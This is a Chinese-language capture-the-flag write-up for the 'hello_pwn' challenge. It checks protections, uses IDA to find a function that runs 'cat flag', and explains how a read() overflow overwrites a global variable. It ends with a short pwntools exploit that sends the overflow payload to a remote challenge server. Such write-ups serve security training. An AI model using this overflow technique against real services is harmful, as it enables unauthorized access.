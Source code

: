 
先放进linux里看一下有无保护  
![先checksec一下](https://sphandsomejack.github.io/2020/01/31/hello_pwn/a.png)

用64位IDA打开，先看字符串窗口，看看有没有可以利用的字符串  
![在这里插入图片描述](https://sphandsomejack.github.io/2020/01/31/hello_pwn/b.png)  
发现可以有system和cat flag，组合使用可以直接拿到flag，点进去看看  
![在这里插入图片描述](https://sphandsomejack.github.io/2020/01/31/hello_pwn/c.png)  
发现在sub_400686函数里，并且可以直接用  
![在这里插入图片描述](https://sphandsomejack.github.io/2020/01/31/hello_pwn/d.png)  
![在这里插入图片描述](https://sphandsomejack.github.io/2020/01/31/hello_pwn/e.png)  
而主函数里调用该函数条件是dword_60106C等于0x6E756161，且read存在溢出漏洞，**栈溢出是向高地址溢出**，所以可以由601068溢出来覆盖60106C。

## [](https://sphandsomejack.github.io/2020/01/31/hello_pwn/#%E6%80%9D%E8%B7%AF%EF%BC%9A "思路：")思路：

让unk_601068溢出，覆盖dword_60106C的值为0x6E756161，来使main的if判断成立，调用sub_400686函数，得到flag。

## [](https://sphandsomejack.github.io/2020/01/31/hello_pwn/#EXP%EF%BC%9A "EXP：")EXP：

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6|from pwn import *  <br>a = remote('111.198.29.45',40481)  <br>payload = 'a'*4 + p64(0x6E756161)  <br>#地址0x00601068到0x0060106C的偏移是4，所以填充4个字符；由于是64位程序，所以用p64打包  <br>a.sendline(payload)  <br>a.interactive()|